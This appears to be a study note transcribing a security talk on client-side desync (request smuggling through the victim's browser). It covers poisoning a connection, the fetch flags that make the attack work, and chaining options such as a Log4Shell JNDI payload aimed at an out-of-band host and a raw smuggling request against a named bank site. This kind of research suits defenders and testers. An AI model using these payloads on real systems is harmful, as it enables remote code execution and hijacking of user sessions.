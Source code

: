  So here, we're sending two requests and the first one is gonna desync the connection. And the second request is just a browser navigation, and that should hopefully suffer the consequences of the connection being desync. Now, there's two flags worth mentioning in this attack request. First off, I'm specifying mode no-cors. This is not required for a successful attack, but what it does is it means we can actually see what's happening inside the developer tools. So it's useful for debugging things when things go wrong, which they will do quite a lot. Secondly, I'm specifying credentials include, this is really important because browsers have multiple connection pools per website. And if you poison the wrong connection pool, then i can promise you an extremely frustrating time. So specify that and you'll probably poison the right one. Now, when you run this, if it's successful, you should see two requests in the dev tools with the same connection ID. 
![[Pasted image 20240810224512.png]]
And you should see that the second response has been affected by  the malicious prefix from the first request as shown here. 
```
store
Chain & Pivot


Attack



```
And at this point, it's just time to build an exploit.  This is quite a powerful primitive. So you've got three main options. First off, you can try to store the user's request somewhere where you can later retrieve it, kind of like i did on Amazon. And that works just same as regular server side request smuggling. So i'm not gonna waste any time talking about it in more detail. 
Secondly, there's an all new option, which is chaining and pivoting. So a client-side desync means that you can make your victim's browser send arbitrary bytes to the target website. So what it does is it turns their browser into your personal attack platform and it puts extra attack surface within your reach. 
```
store
Chain & Pivot
- User-Agent:${jndi:ldap://x.oastify.com}
- impossible CSRF
Attack


```
For example, you can make them put Log4Shell payloads, wherever you like, and you can even hit authenticated attack surface using their credentials in a way that's a bit like cross-site request forgery, but not more powerful, because it doesn't have all the limitations that browsers normally put on cross-domain requests. What i'm gonna focus on though is exploiting the end user. 
```
store
Chain & Pivot
- User-Agent:${jndi:ldap://x.oastify.com}
- impossible CSRF
Attack
- Host-header redirects
- HEAD-splicing XSS
- Challenges: presicion, stacked-responses
```
I've tried a lot of different techniques and had the most success with two well-known approaches from server-side request smuggling with certain tweaks applied that we're gonna have a look at in the case  studies. 
### Akamai - detection
```REQUEST1
POST /assets HTTP/1.1
Host: www.capitalone.ca
Content-Length: 30

GET /robots.txt HTTP/1.1
```